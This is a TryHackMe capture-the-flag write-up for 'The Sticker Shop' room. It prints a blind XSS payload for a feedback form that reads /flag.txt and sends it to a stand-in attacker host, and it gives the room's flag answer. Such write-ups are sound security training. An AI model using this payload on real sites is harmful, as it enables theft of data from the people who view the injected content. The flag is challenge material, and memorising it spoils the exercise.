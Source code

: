 # The Sticker Shop – TryHackMe Walkthrough

**Room:** [https://tryhackme.com/room/thestickershop](https://tryhackme.com/room/thestickershop)

---

## Introduction

Hey everyone! Welcome back to another TryHackMe write-up. This time, we're looking at **The Sticker Shop**—a room focused on web vulnerabilities and how something as simple as a feedback form can lead to full flag exfiltration.

The premise? A local sticker shop just launched their own website... hosted on the same computer they use to browse the internet and check customer feedback 🤦‍♂️. Our goal is to get the contents of `/flag.txt`.

---

## Step 1: Exploring the Webpage

The first thing I did was visit the target site:

```
http://<MACHINE_IP>:8080
```

I was greeted with a simple web interface. There were only two tabs: **Home** and **Feedback**.

![Screenshot From 2025-05-12 20-39-42](https://github.com/user-attachments/assets/2356792b-61ea-4866-9b55-62bc7da19b37)

Curious about the flag, I tried navigating directly to:

```
http://MACHINE_IP:8080/flag.txt
```
![Screenshot From 2025-05-12 20-38-21](https://github.com/user-attachments/assets/ff5b74bb-9f8f-40d1-af30-b5797d321bcd)

This gave me a **401 Unauthorized** error.

> **What does 401 mean?**
> It means the request requires valid authentication, and the server isn't letting you view the file directly.

---

## Step 2: Investigating the Feedback Form

Going back to the main page. I clicked the **Feedback** tab, I noticed a basic input box for comments.

![Screenshot From 2025-05-12 20-40-52](https://github.com/user-attachments/assets/6283cc3b-eb43-4a6c-838b-bd6d3c3bca11)

After submitting a few test entries, I realized this input might actually be **reviewed by a real person**—possibly on the same system where the flag is hosted.

That’s when I suspected a **Blind XSS** vulnerability.

---

## Step 3: Setting Up for Blind XSS

I spun up a Python HTTP server to catch callbacks:

```
python3 -m http.server 8000
```

Then I injected the following payload that I found online after a little bit of research; into the feedback field:

```
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://YOUR-IP:8000/?flag=' + encodeURIComponent(data))
    });
</script>
```

> This payload tells the victim’s browser (likely an admin reviewing feedback) to:
>
> * Grab the contents of `flag.txt`
> * Send it to my IP via the GET request

---

![Screenshot From 2025-05-12 21-19-13](https://github.com/user-attachments/assets/34110f3e-223c-42f3-b373-9f5659fa25c7)


## Step 4: Capturing the Flag

After submitting the feedback and waiting a bit, my Python server logged this:

![Screenshot From 2025-05-12 21-18-11](https://github.com/user-attachments/assets/c3e0be46-6b46-49e3-abe1-fb4ae67daeef)

Inside the request:

```
GET /?flag=THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

Success! We just stole the flag through a blind XSS injection.

---

## Final Answer

> **Question:** What is the content of flag.txt?

> **Answer:** `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

---

## Conclusion

This room was honestly fun and educational. I got hands-on with **Blind XSS**, learned how to exfiltrate sensitive files using a basic payload, and saw how dangerous poor input validation can be—especially when combined with bad system architecture.

Huge shoutout to the creators of this room. Excited to keep building out this series and sharing more write-ups soon. Thanks for reading 🙌

---

Let me know when you're ready for the next one!
